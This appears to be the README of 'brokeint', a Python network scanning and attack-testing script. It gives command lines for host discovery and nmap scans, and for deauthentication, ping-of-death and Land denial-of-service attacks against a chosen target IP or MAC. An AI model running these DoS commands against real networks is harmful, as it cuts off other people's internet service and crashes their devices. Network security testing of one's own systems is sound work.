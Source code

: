 # brokent - Network Security and Attack Testing Python Script

##

Brokeint software is a script written in Python language with network discovery, scanning, information, SSID scanning and 
DOS attack capabilities.

#### Supported Attack

[-] ICMP DOS attack
[-] Deauth DOS Attack
[-] Land attack (designed for Microsoft Windows)

##

## Use

### Help Documentation

`python3 brokeint.py -h`

###  Scans devices with cidr display and gives information about devices 

`python3 brokeint.py -ip 192.168.1.1/24 -iface eth0,Wi-Fi`

### The --nmap parameter scans using nmap and collects information about devices

`python3 brokeint.py -ip 192.168.1.1/24 --nmap`

### Warns the client against MITM attacks when accessing http sites

`
python3 brokeint.py -M -iface Wi-Fi`

### Brings detailed information about networks and SSID around

`python3 brokeint.py --network`

### Shell opens and provides information about your own network with commands from the help documentation

`python3 brokeint.py --networkPassword`

### This command deauts the desired target and tries to interrupt its internet service

`python3 brokeint.py --deauth <packet_count> -a <modem(SSID)_mac> -c <target_mac> -iface Wi-Fi`

### Ping of death sends ICMP pings to the target and performs a DOS attack

`python3 brokeint.py ip <target_ip> -d 150 -C 10000 -iface Wi-Fi`

### Land attack (designed for Microsoft Windows): performs a DOS attack by making the attack on the local network

`python3 brokeint.py -sI <source_ip> -dI <destination_ip> -C 1000`
